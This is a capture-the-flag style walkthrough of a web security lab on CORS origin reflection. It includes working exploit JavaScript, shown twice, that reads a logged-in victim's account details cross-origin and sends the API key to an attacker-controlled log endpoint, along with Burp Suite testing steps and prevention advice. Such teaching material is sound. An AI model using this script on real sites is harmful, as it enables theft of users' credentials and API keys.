

---

# CORS Vulnerability with Basic Origin Reflection - Complete Walkthrough

## What is this lab about?

This lab demonstrates a **CORS misconfiguration** where a website trusts **any origin** (any website) to access its data. An attacker can exploit this to steal sensitive information - in this case, an administrator's API key.

## What is CORS?

Before we dive in, let's understand the basics:

- **Same-Origin Policy (SOP)**: A security rule that prevents websites from reading data from other websites
- **CORS (Cross-Origin Resource Sharing)**: A way for websites to *relax* SOP when they want to share data with trusted sites
- **The vulnerability**: When a website allows *any* origin (`*`) or reflects any origin back, an attacker can steal data

## Lab Goal

Steal the **administrator's API key** using a CORS attack and submit it to solve the lab.

## Credentials Provided

- Username: `wiener`
- Password: `peter`

---

## Step-by-Step Solution

### Step 1: Log into the vulnerable website

First, we need to understand how the website behaves normally.

1. Open the lab in your browser
2. Click "My account" and log in with:
   - Username: `wiener`
   - Password: `peter`
3. After logging in, you'll see your account page with your **API key**

### Step 2: Investigate how the API key is loaded

We need to see how the website retrieves your API key.

1. Open **Developer Tools** (F12 or right-click → Inspect)
2. Go to the **Network** tab
3. Refresh the page
4. Look for a request to `/accountDetails`

You'll see something like this:
```
GET /accountDetails
```

Click on this request and look at the **Response Headers**. You should see:
```
Access-Control-Allow-Credentials: true
```

This header tells the browser that cookies can be sent with cross-origin requests. This is necessary for the attack to work.

### Step 3: Test if the website reflects any origin

Now we test if the website trusts any origin.

1. Open **Burp Suite** (or any tool to modify requests)
2. Find the `/accountDetails` request in Burp's history
3. Send it to **Repeater** (right-click → Send to Repeater)
4. In Repeater, add a new header:
   ```
   Origin: https://example.com
   ```
5. Send the request

**Look at the response headers.** You should see:
```
Access-Control-Allow-Origin: https://example.com
```

**This is the vulnerability!** The website:
- Takes whatever origin you put in the request
- Reflects it back in the `Access-Control-Allow-Origin` header
- Effectively says "Yes, any website can access this data"

### Step 4: Create the exploit JavaScript

Now we create JavaScript that exploits this misconfiguration.

The exploit will:
1. Make a request to `/accountDetails` from a malicious page
2. Include cookies (so we access the admin's account)
3. Read the response (the API key)
4. Send the stolen key to our server

Here's the exploit code:

```html
<script>
    // Create a request to get the account details
    var req = new XMLHttpRequest();
    
    // When the request completes, call reqListener
    req.onload = reqListener;
    
    // Configure the request
    req.open('get', 'https://YOUR-LAB-ID.web-security-academy.net/accountDetails', true);
    
    // Include cookies in the request (critical for accessing the admin's account)
    req.withCredentials = true;
    
    // Send the request
    req.send();

    // This function runs when we get the response
    function reqListener() {
        // Send the stolen data to our log endpoint
        location = '/log?key=' + this.responseText;
    };
</script>
```

**Important:** Replace `YOUR-LAB-ID` with your actual lab ID (e.g., `abc123.web-security-academy.net`)

### Step 5: Host the exploit

Now we need to host this malicious page so the victim (admin) can be tricked into visiting it.

1. In the lab, go to the **Exploit Server** (usually a button at the top)
2. In the "Body" section, paste the HTML/JavaScript code above
3. Click **"Store"** to save it
4. Click **"View exploit"** to test it on yourself

When you click "View exploit":
- You'll be redirected to a `/log` page
- Look at the URL - you should see your own API key in the `?key=` parameter
- This proves the exploit works!

### Step 6: Deliver the exploit to the victim

Now we make the admin visit our malicious page.

1. Go back to the **Exploit Server**
2. Click **"Deliver exploit to victim"**
3. The lab will simulate the admin clicking your link

### Step 7: Retrieve the administrator's API key

The admin's API key has been sent to our log.

1. On the Exploit Server, click **"Access log"**
2. Look for a line like:
   ```
   10.0.0.1 2024-01-01 12:00:00 +0000 "GET /log?key=ADMIN_API_KEY_HERE"
   ```
3. Copy the API key from the URL
4. Go back to the lab
5. Paste the API key in the submission field
6. Click "Submit"

### Step 8: Lab solved!

You should see a congratulations message. You've successfully exploited a CORS misconfiguration!

---

## What Just Happened? (The Technical Explanation)

Let me break down exactly what happened:

### The Vulnerability
```
Request from attacker:    Origin: https://evil.com
Response from server:     Access-Control-Allow-Origin: https://evil.com
                         Access-Control-Allow-Credentials: true
```

### The Attack Flow
1. **Victim (admin)** is logged into the vulnerable site
2. **Victim visits** the attacker's malicious page
3. **Malicious JavaScript** runs in victim's browser
4. **Browser makes request** to `/accountDetails` with victim's cookies
5. **Server sees valid session** and returns API key + CORS headers
6. **Browser checks CORS headers** - sees `evil.com` is allowed
7. **Browser gives response** to JavaScript (normally blocked by SOP)
8. **JavaScript steals** the API key
9. **Key is sent** to attacker's server

### Why This Works
- The server **trusts any origin** (reflection vulnerability)
- The server allows **credentials** (cookies) in cross-origin requests
- The browser **honors the CORS headers** and bypasses SOP

## How to Prevent This (For Developers)

If you're building a website, here's how to avoid this vulnerability:

### ✅ Good CORS Configuration
```http
Access-Control-Allow-Origin: https://trusted-site.com
Access-Control-Allow-Credentials: true
```

### ❌ Bad CORS Configuration
```http
Access-Control-Allow-Origin: *           # Too permissive
Access-Control-Allow-Origin: null        # Dangerous
Access-Control-Allow-Origin: [reflected] # Never reflect user input
```

### Best Practices
1. **Never reflect the Origin header** - use an allowlist
2. **Avoid wildcard `*`** when using credentials
3. **Validate origins strictly** - check the exact domain
4. **Use CSRF tokens** as additional protection
5. **Keep sensitive endpoints** from supporting CORS

## Key Takeaways

| Concept | Explanation |
|---------|-------------|
| **Same-Origin Policy** | Default security rule - websites can't read each other's data |
| **CORS** | Way to opt-out of SOP for trusted websites |
| **Origin Reflection** | Server copies whatever origin you send back to you |
| **Vulnerability** | Server trusts ANY origin because of reflection |
| **Impact** | Attacker can steal any data the victim can access |

## Complete Exploit Code (Ready to Use)

```html
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get', 'https://YOUR-LAB-ID.web-security-academy.net/accountDetails', true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location = '/log?key=' + this.responseText;
    };
</script>
```

**Remember:** Replace `YOUR-LAB-ID` with your actual lab ID!

---

## About This Write-up

This walkthrough is for **educational purposes only**. Understanding these attacks helps developers build more secure applications. Always get proper authorization before testing security vulnerabilities.

---

